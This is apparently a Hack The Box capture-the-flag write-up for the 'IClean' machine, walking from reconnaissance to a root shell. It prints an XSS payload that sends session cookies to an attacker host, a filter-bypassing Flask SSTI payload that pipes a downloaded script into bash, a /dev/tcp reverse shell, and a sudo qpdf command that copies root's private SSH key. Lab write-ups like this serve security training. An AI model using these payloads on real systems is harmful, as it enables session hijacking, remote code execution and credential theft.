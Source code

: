 # 🧼 Hack The Box - IClean Writeup 

> Difficulty: *Medium*  
> Tags: XSS, SSTI, Flask, Cookie Stealing, MySQL, qpdf, Privilege Escalation  
> Author: *mohamed tarek*

---

## 🧾 Summary

This writeup covers the steps I used to gain root access on the **IClean** machine. The attack path included:

- XSS leading to **cookie stealing**
- **SSTI** in Flask bypassing filters
- Cracking MySQL password hashes
- Exploiting **qpdf** misconfiguration for privilege escalation

---

## 🔍 Reconnaissance

Initial Nmap scan:

```bash
nmap -sC -sV -v <target ip>

Open ports:

22/tcp - SSH

80/tcp - HTTP

Wappalyzer detected the web framework as Flask

## 🔎 Enumeration

Navigating to /login/ revealed nothing of interest.

The /quote/ page allowed input via the service parameter, which was vulnerable to XSS.

XSS Test:
<img src="http://<attacker_ip>:8000">

This was URL-encoded via Burp Suite and sent to the server. A request hit the listener, confirming reflected XSS.

Discovered /dashboard/ via feroxbuster, but it required authentication.

## 🍪 Exploiting XSS: Cookie Stealing

Used a classic XSS payload to steal session cookies:

<img src=x onerror=fetch('http://<attacker_ip>:8000/?c='+document.cookie);>

Set up a Python HTTP server to catch the cookie.

Added the stolen session cookie to the browser using "Cookie Editor" under the name session, which granted access to /dashboard/.

## 🧾 SSTI to RCE (QRGenerator)

The dashboard allows generating invoices and QR codes.

At /QRGenerator/, the input was vulnerable to Server-Side Template Injection.

SSTI Confirmation:
Input:
{{7*7}}

Output contained 49 → confirmed SSTI.

Bypassing Filters:
Used encoded Flask SSTI payload for RCE

{{request|attr("application")|attr("__globals__")|attr("__getitem__")("__builtins__")|attr("__getitem__")("__import__")("os")|attr("popen")("curl <attacker_ip>:8000/revshell | bash")|attr("read")()}}

Set up HTTP server and listener:

python3 -m http.server
nc -lvnp <port>

Reverse shell script:

#!/bin/bash
bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'

After submission, shell connected back successfully.

## 🛠️ Local Enumeration

Found Flask app source in /opt/app/app.py.

Discovered database credentials for MySQL:

mysql -u iclean -p

Dumped user password hashes (admin and consuela).

Cracked consuela's hash using crackstation.net. admin remained uncracked.

## 🔐 Privilege Escalation via qpdf

As user consuela, I could execute qpdf as root:

sudo -l
# Output:
# (ALL) NOPASSWD: /usr/bin/qpdf

Used qpdf to exfiltrate root’s private SSH key:

sudo /usr/bin/qpdf --empty /tmp/priv_key.txt --qdf --add-attachment /root/.ssh/id_rsa --

The key was saved in /tmp/priv_key.txt.

Copied it locally:

chmod 600 id_rsa
ssh -i id_rsa root@<target_ip>

## 🏁 Root Flag

After successful SSH login as root, grabbed the root flag:

cat /root/root.txt

## 🧠 Lessons Learned

XSS can become powerful when chained with session hijacking.

Always test for SSTI in Flask apps with filtered input.

qpdf is a lesser-known but very effective privilege escalation vector.

Cracking password hashes is sometimes necessary to move forward.

## 🔧 Tools Used
nmap

feroxbuster

Burp Suite

Python HTTP server

netcat

Cookie Editor Extension

crackstation.net
